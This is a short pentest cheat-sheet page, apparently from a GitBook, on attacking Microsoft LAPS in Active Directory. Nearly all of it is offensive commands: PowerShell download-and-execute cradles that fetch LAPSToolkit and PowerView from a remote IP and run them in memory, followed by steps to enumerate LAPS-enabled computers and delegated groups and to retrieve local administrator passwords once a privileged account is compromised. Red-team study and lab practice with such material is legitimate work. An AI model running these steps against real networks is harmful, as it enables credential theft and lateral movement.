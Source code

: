 # LAPS

## LAPS

### LAPSToolKit Usage

```csharp
iex(iwr http://10.110.0.66:8001/LAPSToolkit.ps1) 
```

### Locate computers

```csharp
Get-LAPSComputers
```

![](<../../../../.gitbook/assets/image (148).png>)

### Find Delegate groups

```csharp
Find-LAPSDelegatedGroups
```

![](<../../../../.gitbook/assets/image (281).png>)

### Enumerate groups

#### Load powerview

```csharp
 iex(new-object net.webclient).downloadstring('http://10.110.0.66:8000/powerview.ps1')
```

```csharp
Get-NetGroupMember -GroupName <GROUP_NAME>
```

![](<../../../../.gitbook/assets/image (25) (1).png>)

### Retrieve password

{% hint style="info" %}
Require to compromise a privilege user
{% endhint %}

```csharp
Get-LAPSComputers
```

![](<../../../../.gitbook/assets/image (249) (1).png>)

### Resources

{% embed url="https://github.com/leoloobeek/LAPSToolkit" %}
